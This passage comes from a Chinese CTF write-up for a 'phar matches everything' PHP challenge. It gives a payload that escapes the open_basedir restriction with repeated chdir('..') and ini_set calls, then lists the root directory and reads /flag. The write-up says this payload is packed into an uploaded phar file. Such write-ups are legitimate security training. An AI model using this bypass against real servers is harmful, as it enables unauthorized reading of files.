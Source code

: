 **8.3 代码执行：访问phpinfo();界面**

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/53012E2D032F4D508F84234BBDBF7D26phar%20matches%20everything12.png)
**8.4 disable_function禁用很多函数**

最终构造：
```
mkdir('/tmp/fuck');chdir('/tmp/fuck');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));readfile('/flag');
```

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/C1A85354807D45BAAE26836402F7469Aphar%20matches%20everything13.png)

**8.5 将生成的exp，加入到phar文件中，上传到靶机**

**8.6 访问即可得到flag**

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/13EFF27618E54307BAAA2127BBF8A035phar%20matches%20everything14.png)

